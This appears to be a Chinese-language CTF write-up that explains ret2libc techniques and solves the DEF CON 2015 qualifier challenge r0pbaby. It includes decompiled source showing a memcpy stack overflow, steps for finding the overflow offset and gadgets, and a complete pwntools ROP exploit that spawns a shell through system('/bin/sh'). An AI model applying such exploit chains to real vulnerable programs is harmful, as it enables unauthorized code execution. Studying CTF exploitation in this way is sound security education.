
# re2libc
ret2libc 就是控制程序执行 libc 库中的函数，通常是返回到某个函数的 PLT 处或函数的具体位置（即函数 GOT 表项的内容）
有以下三种情况

 - 程序中既有 system 又有 /bin/sh，或者说在给出的可执行文件中能找到 system 函数的地址和 /bin/sh 字符串的地址
 **这种情况直接构造参数调用函数即可**
-  程序中只有 system，或者说在给出的可执行文件中能找到 system 函数的地址，但找不到 /bin/sh 字符串的地址。
 **这种情况需要泄露某个可写输入位置的地址，先用输入函数输入 /bin/sh，再构造参数，最后调用 system**
- 程序中既没有 system 也没有 /bin/sh，或者说在给出的可执行文件中既找不到 system 函数的地址，也找不到 /bin/sh 字符串的地址。
 **这种情况需要先泄露 libc 中某个函数的地址，再通过偏移得到 libc 基址，然后计算出 libc 中 system 函数的地址和 /bin/sh 字符串的地址，最后调用**

# DEF CON CTF Qualifier 2015 r0pbaby 


## 源码
用 IDA 反汇编

> 1. dlopen 以特定方式将指定的动态库加载到当前进程中，并返回一个可用的句柄，用于后续获取函数地址等操作；

>2. dlsym 从指定的库（由 dlopen 的返回值指定）中获取指定的函数（第二个参数为函数名）；

>3. dlclose 可以关闭并卸载动态库；注意它实际上是将动态库的引用计数（ref）减一，只有计数减到 0 时才会触发卸载操作；

>4. dlerror 返回描述错误的字符串；

>通常的三步走模式是：先打开（dlopen），再获取需要的函数（dlsym），然后调用函数，最后关闭（dlclose）


>C 库函数 void (*signal(int sig, void (*func)(int)))(int) 设置一个处理信号的函数，即带有 sig 参数的信号处理程序。当发生信号处理时，会调用 func 对应的函数

 > __printf_chk(1LL, "libc.so.6: 0x%016llX\n", handle);
 > %016llX 大致意思是用 0 填充、输出 16 位，以 unsigned long long 的形式但按十六进制输出


```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v3; // eax
  void *v4; // rax
  unsigned __int64 v5; // r14
  int v6; // er13
  size_t v7; // r12
  int v8; // eax
  void *handle; // [rsp+8h] [rbp-448h]
  char nptr[1088]; // [rsp+10h] [rbp-440h] BYREF
  __int64 savedregs; // [rsp+450h] [rbp+0h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  signal(14, handler);
  alarm(0x3Cu);
  puts("\nWelcome to an easy Return Oriented Programming challenge...");
  puts("Menu:");
  handle = dlopen("libc.so.6", 1);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          sub_BF7();
          if ( !sub_B9A(nptr, 1024LL) )
          {
            puts("Bad choice.");
            return 0LL;
          }
          v3 = strtol(nptr, 0LL, 10);
          if ( v3 != 2 )
            break;
          __printf_chk(1LL, "Enter symbol: ");
          if ( sub_B9A(nptr, 64LL) )
          {
            v4 = dlsym(handle, nptr);
            __printf_chk(1LL, "Symbol %s: 0x%016llX\n", nptr, v4);
          }
          else
          {
            puts("Bad symbol.");
          }
        }
        if ( v3 > 2 )
          break;
        if ( v3 != 1 )
          goto LABEL_24;
        __printf_chk(1LL, "libc.so.6: 0x%016llX\n", handle);
      }
      if ( v3 != 3 )
        break;
      __printf_chk(1LL, "Enter bytes to send (max 1024): ");
      sub_B9A(nptr, 1024LL);
      v5 = (int)strtol(nptr, 0LL, 10);
      if ( v5 - 1 > 0x3FF )
      {
        puts("Invalid amount.");
      }
      else
      {
        if ( v5 )
        {
          v6 = 0;
          v7 = 0LL;
          while ( 1 )
          {
            v8 = _IO_getc(stdin);
            if ( v8 == -1 )
              break;
            nptr[v7] = v8;
            v7 = ++v6;
            if ( v5 <= v6 )
              goto LABEL_22;
          }
          v7 = v6 + 1;
        }
        else
        {
          v7 = 0LL;
        }
LABEL_22:
        memcpy(&savedregs, nptr, v7);
      }
    }
    if ( v3 == 4 )
      break;
LABEL_24:
    puts("Bad choice.");
  }
  dlclose(handle);
  puts("Exiting.");
  return 0LL;
}
```
这个函数有三个功能
1. 获取 libc 加载的基址
2. 获取 libc 中某个函数的地址
3. 向栈上输入内容

> C 库函数 void *memcpy(void *str1, const void *str2, size_t n) 从存储区 str2 复制 n 个字节到存储区 str1。

注意 nptr 是输入内容的起始地址，而 &savedregs 顾名思义——在 IDA 中也可以验证——是栈上保存 rbp 的位置，v7 是输入的长度。这里存在溢出：memcpy 之后，复制的值可能覆盖到返回地址



## 思路
### 先获取 libc 基址


结果发现 0x00007FFFF7FBB680 中存放的是 libc 基址
但没什么用，因为接收到的只是存放 libc 基址的那个地址
### 获取 system 地址


### 溢出长度
一方面，IDA 显示是 8
另一方面，也可以用 pattern 工具检查
创建一个长度为 32 的字符串作为输入，然后出现报错 "Program received signal SIGSEGV, Segmentation fault."


此时查看 pc，下一条要执行的指令是 ret，栈顶是 0x6e41412441414241，它在输入字符串中的偏移为 8

### 构造 payload
计算 system 函数、/bin/sh 以及 pop rdi; ret gadget 的偏移。得到 system 地址后就可以构造 payload 了
find 用于搜索字符串
ropsearch 用于搜索 gadget

计算相对 system 的差值

最后，先获取 system 的地址，再计算 pop rdi; ret gadget 的地址和 /bin/sh 的地址，构造 ROP 链
此时会出现 SIGSEGV 错误
这是因为 movaps 要求 rsp 16 字节对齐，所以在栈上加一个 8 字节的 ret 地址即可


## exp

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
r=process("./r0pbaby")
#gdb.attach(r,"b*main")
def get_sys_addr():
    r.recvuntil(b"4) Exit")
    r.recvuntil(b": ")
    r.sendline(b"2")
    r.sendlineafter(b"Enter symbol: ",b"system")
    r.recvuntil(b"Symbol system: ")
    system_addr=r.recvuntil(b"\n")[:-1]
    return system_addr

def send_payload(payload):
    r.recvuntil(b"4) Exit")
    r.recvuntil(b": ")
    r.sendline(b"3")
    r.sendlineafter(b"Enter bytes to send (max 1024): ",str(len(payload)))

    r.sendline(payload)
    

system_addr=int(get_sys_addr(),16)
ret_addr=system_addr-162871
print("system_addr",hex(system_addr))
binsh_addr=system_addr+1603848
pop_rdi_addr=system_addr-158091
payload=b"a"*8+p64(pop_rdi_addr)+p64(binsh_addr)+p64(ret_addr)+p64(system_addr)
print(len(payload))
send_payload(payload)
r.interactive()
```

